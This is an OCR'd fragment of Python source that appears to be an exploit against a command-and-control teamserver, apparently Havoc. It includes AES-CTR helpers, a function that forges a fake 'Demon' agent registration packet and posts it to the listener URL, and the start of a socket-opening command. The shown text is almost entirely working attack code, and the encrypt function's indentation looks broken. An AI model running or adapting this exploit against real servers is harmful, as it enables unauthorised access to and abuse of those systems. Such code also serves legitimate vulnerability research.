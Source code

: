 ```python
    if len(key) <= key_bytes:
        for _ in range(len(key), key_bytes):
            key += b"0"

    assert len(key) == key_bytes

    iv_int = int(binascii.hexlify(iv), 16)
    ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
    aes = AES.new(key, AES.MODE_CTR, counter=ctr)

    plaintext = aes.decrypt(ciphertext)
    return plaintext

def int_to_bytes(value, length=4, byteorder="big"):
    return value.to_bytes(length, byteorder)

def encrypt(key, iv, plaintext):

    if len(key) <= key_bytes:
        for x in range(len(key),key_bytes):
            key = key + b"0"

        assert len(key) == key_bytes

        iv_int = int(binascii.hexlify(iv), 16)
        ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
        aes = AES.new(key, AES.MODE_CTR, counter=ctr)

        ciphertext = aes.encrypt(plaintext)
        return ciphertext

def register_agent(hostname, username, domain_name, internal_ip, process_name, process_id):
    # DEMON_INITIALIZE / 99
    command = b"\x00\x00\x00\x63"
    request_id = b"\x00\x00\x00\x01"
    demon_id = agent_id

    hostname_length = int_to_bytes(len(hostname))
    username_length = int_to_bytes(len(username))
    domain_name_length = int_to_bytes(len(domain_name))
    internal_ip_length = int_to_bytes(len(internal_ip))
    process_name_length = int_to_bytes(len(process_name) - 6)

    data =  b"\xab" * 100

    header_data = command + request_id + AES_Key + AES_IV + demon_id + hostname_length + hostname + username_length + username + domain_name_length + domain_name + internal_ip_length + internal_ip + process_name_length + process_name + process_id + data

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id

    print("[***] Trying to register agent ...")
    r = requests.post(teamserver_listener_url, data=agent_header + header_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to register agent - {r.status_code} {r.text}")

def open_socket(socket_id, target_address, target_port):
    # COMMAND_SOCKET / 2540
```